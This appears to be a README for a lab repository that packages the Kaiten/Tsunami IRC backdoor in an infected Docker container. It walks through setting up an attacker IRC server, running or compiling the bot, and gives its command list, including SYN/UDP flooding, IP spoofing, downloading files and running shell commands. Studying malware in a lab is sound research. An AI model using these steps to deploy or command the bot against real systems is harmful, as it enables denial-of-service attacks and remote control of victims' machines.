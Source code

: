 # KAITEN / TSUNAMI Malware

Kaiten is a Trojan horse that opens a back door on the compromised
computer that allows it to perform other malicious activities. The
trojan does not create any copies of itself. This backdoor arrives 
on a system as a file dropped by other malware or as a file downloaded
unknowingly by users when visiting malicious sites. It requires manual
installation. The malware is most often used as a DDoS bot and communicates
with attackers through IRC.

## Apline-Kaiten
In this directory, you will find **alpine-kaiten.tar**, which is a Docker Alpine
Linux container that has been infected with the malware. To specify the 
callback IP, set the KAITEN_SERVER environment variable in the container.

## Attacker setup
Using the attacking VM, you will need to install an IRC server and client.
- Install ngircd:
  1. ```git clone https://github.com/ngircd/ngircd.git```
  1. Install prerequisites: ```sudo apt-get install -y automake autoconf```
  1. Run the install script: ```cd ngircd && sudo ./autogen.sh```
  1. Run the usual ```sudo ./configure; sudo make; sudo make install```

- Install IRC client:
  1. For example: ```sudo apt-get install -y hexchat```
  2. Set proper server name/address in **ngircd.conf**:
    ```
    ;Name = irc.example.net
	 Name = 192.168.12.34
    ```
  3. Start IRC server: `sudo /usr/local/sbin/ngircd -f /home/<user>/ngircd/ngircd.conf -n`
     - NOTE: `-n` can be omitted to daemonize
  4. When connecting to the server in the IRC client, set the port to `6667` (Hexchat defaults to `6697` for SSL connections)

## Victim setup
Load the docker alpine-kaiten image onto the host. The victim container
has been infected with the malware and an openrc service has been created
start the malware on boot.

1. `git clone https://github.com/aaron-hobdy/kaiten`
2. `cd kaiten`
3. `sudo apt-get install -y unzip`
4. `unzip kaiten_docker_image.zip`
5. `sudo docker load < kaiten_docker_image/alpine-kaiten.tar`
6. `sudo docker run -it alpine-kaiten sh --login`
   - NOTE: The --login uses the /etc/profile to set the KAITEN_SERVER
     environment variable when logging in interactively. You could also
     set it in a docker-compose file.
7. Alternatively, it can be set manually and restarted:
    ```
    export KAITEN_SERVER="192.168.12.34"
    cd /root
    ./kaiten
    ps aux | grep kaiten
    ```

If desired, the **kaiten** binary can be compiled from source (need to install the `libc-dev` package):
```
apk add libc-dev
gcc -o kaiten -lm kaiten.c
```

## Command and Control
1. Use the IRC client installed on the attacking machine to connect to 
   the IRC server.
1. Join the channel: ```gopherjams```

### Command Syntax
Command syntax is ```!<nickname> <command>``` where <nickname> is the IRC
nickname of the client to command.

### Commands
There are a number of commands that can be sent to a client:
```
        TSUNAMI <target> <secs>       = A PUSH+ACK flooder                    
        PAN <target> <port> <secs>    = A SYN flooder                         
        UDP <target> <port> <secs>    = An UDP flooder                        
        UNKNOWN <target> <secs>       = Another non-spoof udp flooder         
        NICK <nick>                   = Changes the nick of the client        
        GETSPOOFS                     = Gets the current spoofing             
        SPOOFS <subnet>               = Changes spoofing to a subnet          
        DISABLE                       = Disables all packeting from this bot  
        ENABLE                        = Enables all packeting from this bot   
        KILL                          = Kills the knight                      
        GET <http address> <save as>  = Downloads a file off the web          
        VERSION                       = Requests version of knight            
        KILLALL                       = Kills all current packeting           
        HELP                          = Displays this                         
        IRC <command>                 = Sends this command to the server      
        SH <command>                  = Executes a command 
```

### Example Command
Screenshot from the working PoC (note that `SH` needs to be capitalized)
- ![image info](./example.png)
